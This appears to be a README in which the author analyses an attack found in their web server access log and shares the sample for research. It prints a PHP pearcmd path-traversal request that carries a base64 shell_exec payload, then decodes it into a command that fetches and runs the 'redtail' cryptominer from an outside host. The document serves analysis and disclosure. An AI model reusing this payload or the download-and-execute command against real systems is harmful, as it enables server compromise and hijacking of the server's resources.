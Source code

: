 # redtail

While analyzing my daily access.log report, I noticed something really, really wrong.


> 26 December 2023, 04:21	202.1.200.239	GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode(\


Above is the processed access.log report. I believe there's a raw base64 string present over there, but it got trimmed by my faulty regex script. So I decided to inspect the raw access.log file : 

> 202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"

Umm... Why is the `shell_exec` part missing here?

I decided to modify my access.log processor script. So I instructed the script that whenever a string containing "base64_decode" is being processed, please show me the raw log line.

Here's what I got :


```
202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&amp;+config-create+/&amp;/<!--?shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"));?-->+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"
```
Here's the true culprit 

> shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"))

And finally, I managed to extract the base64 string.


> bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=


Let's decode this base64 string.


> mkdir -p /tmp/$(whoami); cd /tmp/$(whoami); wget http://dw.ohuyal.xyz/download/redtail.x86_64; curl -O http://dw.ohuyal.xyz/download/redtail.x86_64; mv redtail.x86_64 php.selfrep; chmod +x php.selfrep; ./php.selfrep; echo PHP.SELFREP


Umm. I don't understand it. Let's ask ChatGPT.

----

This script seems to be a set of commands executed in a Unix-like shell (like Bash). Let's break it down step by step:

1. **Create a temporary directory with the user's name:**
   ```bash
   mkdir -p /tmp/$(whoami)
   ```
   - `mkdir`: command to create a directory.
   - `-p`: option to create parent directories if they don't exist.
   - `/tmp/$(whoami)`: specifies the path of the directory. `/tmp/` is the temporary directory, and `$(whoami)` is a command substitution that gets replaced with the current username.

2. **Change to the newly created temporary directory:**
   ```bash
   cd /tmp/$(whoami)
   ```
   - `cd`: command to change the current working directory.

3. **Download a file named "redtail.x86_64" from a remote server using `wget` and `curl`:**
   ```bash
   wget http://dw.ohuyal.xyz/download/redtail.x86_64
   curl -O http://dw.ohuyal.xyz/download/redtail.x86_64
   ```
   - `wget`: command to download files from the internet.
   - `curl -O`: command to download a file and save it with the same name as the remote file.

4. **Rename the downloaded file to "php.selfrep":**
   ```bash
   mv redtail.x86_64 php.selfrep
   ```
   - `mv`: command to rename or move files.

5. **Give execute permissions to the renamed file:**
   ```bash
   chmod +x php.selfrep
   ```
   - `chmod +x`: command to make the file executable.

6. **Execute the renamed file:**
   ```bash
   ./php.selfrep
   ```
   - `./`: specifies the current directory.
   - `php.selfrep`: the executable file that was downloaded and renamed.

7. **Print a message "PHP.SELFREP":**
   ```bash
   echo PHP.SELFREP
   ```
   - `echo`: command to print text to the console.

----

Before that URL is unaccessible, I archived the `redtail.x86_64` executable here for research purposes.

### So?

I wish some security researchers could find out what these executables actually do. 

Oh, I also managed to find another malware in the wild, similar to this : [jaws.exploit](https://github.com/altilunium/jaws.exploit). 

All I have to do to get this one is by setting up a honeypot server with a publicly accessible IP.

### Epilogue

* VirusTotal analysis of this `redtail.x86_64` file : [miner.bldbd/xmrig](https://www.virustotal.com/gui/file/819f53b96bb5b8869531d3880b53cb5f354b2a2f5171e783bad495e1ac2cbbf0/detection)
